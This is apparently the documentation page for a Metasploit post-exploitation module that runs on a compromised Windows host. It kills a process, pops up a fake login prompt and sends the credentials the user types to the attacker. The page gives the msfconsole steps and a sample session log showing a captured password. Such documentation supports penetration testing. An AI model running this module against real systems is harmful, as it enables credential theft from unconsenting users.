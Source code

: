 
## Vulnerable Application

  This module is able to perform a phishing attack on the target by
  popping up a login prompt. When the user fills credentials in the
  login prompt, the credentials will be sent to the attacker. The
  module is able to monitor for new processes and popup a login prompt
  when a specific process is starting. Tested on Windows 7.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/phish_windows_credentials```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

### DESCRIPTION

  Message shown in the login prompt.

### PROCESS

  Prompt if a specific process is started by the target. (e.g. `calc.exe` or specify * for all processes.)

### SESSION

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49164) at 2019-12-17 11:47:06 -0700

  msf > use post/windows/gather/phish_windows_credentials
  msf post(windows/gather/phish_windows_credentials) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/phish_windows_credentials) > set PROCESS *
    PROCESS => *
  msf post(windows/gather/phish_windows_credentials) > exploit

  [+] PowerShell is installed.
  [*] Monitoring new processes.
  [*] [System Process] is already running. Waiting on new instances to start
  [*] System is already running. Waiting on new instances to start
  ...snip...
  [*] New process detected: 2744 notepad.exe
  [*] Killing the process and starting the popup script. Waiting on the user to fill in his credentials...
  [+]

  [+] UserName                   Domain                     Password
  --------                   ------                     --------
  MY                         MY-PC                      P@ssw0rd1!



  [*] Post module execution completed
  ```
